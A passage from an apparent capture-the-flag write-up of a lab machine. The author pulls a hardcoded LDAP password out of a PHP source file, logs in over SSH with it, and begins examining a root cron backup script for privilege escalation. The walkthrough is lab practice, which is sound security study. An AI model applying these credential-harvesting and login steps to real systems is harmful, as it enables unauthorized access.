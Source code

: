 I can read source files from the PHP application and find the password for ldapuser:
```
sh-4.2$ cat login.php
<!doctype html>
<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';
```

I'm now able to SSH in with those credentials and get `user.txt`:
```
# ssh ldapuser@10.10.10.122
ldapuser@10.10.10.122's password: 
[ldapuser@ctf ~]$ cat user.txt
74a8e8...
```

### Privesc

The content of `/backup` is interesting: there's a script that appears to run in a cronjob, archiving files into the folder:

```
[ldapuser@ctf backup]$ ls -la
total 52
drwxr-xr-x.  2 root root 4096 Feb  6 01:01 .
dr-xr-xr-x. 18 root root  238 Jul 31  2018 ..
-rw-r--r--.  1 root root   32 Feb  6 00:51 backup.1549410661.zip
-rw-r--r--.  1 root root   32 Feb  6 00:52 backup.1549410721.zip
-rw-r--r--.  1 root root   32 Feb  6 00:53 backup.1549410781.zip
-rw-r--r--.  1 root root   32 Feb  6 00:54 backup.1549410841.zip
-rw-r--r--.  1 root root   32 Feb  6 00:55 backup.1549410901.zip
-rw-r--r--.  1 root root   32 Feb  6 00:56 backup.1549410961.zip
-rw-r--r--.  1 root root   32 Feb  6 00:57 backup.1549411021.zip
-rw-r--r--.  1 root root   32 Feb  6 00:58 backup.1549411081.zip
-rw-r--r--.  1 root root   32 Feb  6 00:59 backup.1549411141.zip
-rw-r--r--.  1 root root   32 Feb  6 01:00 backup.1549411201.zip
-rw-r--r--.  1 root root   32 Feb  6 01:01 backup.1549411261.zip
-rw-r--r--.  1 root root    0 Feb  6 01:01 error.log
-rwxr--r--.  1 root root  975 Oct 23 14:53 honeypot.sh
```

The script `honeypot` is shown below. In a nutshell:
 1. It generates archive filenames based on the date/time
 2. Encryption password for the archive is an md5hash of a generated password based in the root hash. No way we can recover this password.
 3. All the files from `/var/www/html/uploads` are archived into `/backup`

It doesn't seem possible to abuse some of the bash wildcards that I used to solve another HTB box since the script passes the `--` flag that prevents processing further flags.

```sh
[ldapuser@ctf backup]$ cat honeypot.sh 
# get banned ips from fail2ban jails and update banned.txt
# banned ips directily via firewalld permanet rules are **not** included in the list (they get kicked for only 10 seconds)
/usr/sbin/ipset list | grep fail2ban -A 7 | grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | sort -u > /var/www/html/banned.txt
# awk '$1=$1' ORS='<br>' /var/www/html/banned.txt > /var/www/html/testfile.tmp && mv /var/www/html/testfile.tmp /var/www/html/banned.txt

# some vars in order to be sure that backups are protected
now=$(date +"%s")
filename="backup.$now"
```
